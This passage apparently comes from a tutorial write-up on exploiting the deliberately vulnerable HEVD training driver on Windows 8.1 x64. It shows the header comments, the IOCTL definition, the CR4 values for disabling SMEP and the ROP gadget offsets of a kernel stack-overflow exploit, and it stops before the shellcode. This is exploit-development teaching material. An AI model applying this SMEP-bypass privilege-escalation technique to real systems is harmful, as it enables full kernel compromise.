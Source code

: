 ```c
    return (UINT64)pKernelBaseAddress;
}
```

## Final exploit
Here is the final exploit, all commented up and ready for distribution.

```c
#include <windows.h>
#include <stdio.h>
#include <psapi.h>

//////////////////////////////////////////////////////////////////// 
//                                                                //
//    Title:    HEVD x64 Stack Overflow                           //
//    Platform: Windows 8.1 Version 9600 MP (1 procs) Free x64    //
//    Author:   Jeremy Dunn (@stolenfootball)                     //
//    Website:  https://stolenfootball.github.io                  //
//                                                                //
////////////////////////////////////////////////////////////////////

/*  
 *  This program exploits a standard stack based buffer overflow in the 0x800 
 *  IOCTL of the HEVD (https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
 *  driver.  The exploit is valid on Windows 8.1 x64 kernels.  For kernel versions 
 *  other than the one listed above, ROP gadget offsets may need to be changed.
 * 
 *  The driver takes in an arbitrary buffer from the user and performs an unchecked
 *  memmove into a statically sized stack-based buffer in the kernel.
 * 
 *  The kernel stack buffer is 0x800 bytes long.  There are three callee saved 
 *  registers (r12, r14, and r15) that are overwritten for a total of 0x18 bytes.
 *  As such, bytes 0x818 through bytes 0x820 overflow the return address.
 * 
 *  The original values in the callee saved registers are:
 *      r12: set to 0
 *      r14: holds a pointer to the current IO_STACK_LOCATION
 *      r15: holds a pointer to the FILE_OBJECT associated with the driver
 * 
 *  All three registers are restored through the shellcode.
 * 
 *  This exploit uses the documented method of EnumDeviceDrivers to determine the 
 *  kernel base address.  It uses a ROP chain in ntkrnl.exe to disable SMEP.
 */ 


// Vulnerable IOCTL
#define HEVD_IOCTL_BUFFER_OVERFLOW \
    CTL_CODE( 0x22, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS )

// Sizes for overflow
#define BUFFER_SIZE 2048
#define POINTER_SIZE 8

// SMEP Constants
#define SMEP_BIT 20
#define CR4_ORIG_VALUE 0x00000000001406f8
#define CR4_SMEP_DISABLED (CR4_ORIG_VALUE & ~(1 << SMEP_BIT))

// ROP Gadgets
// Windows 8.1 Kernel Version 9600 MP (1 procs) Free x64
#define POP_RCX     0x000378df6      // : pop rcx ; ret
#define MOV_CR4_RCX 0x00008655a      // : mov cr4, rcx ; ret
```
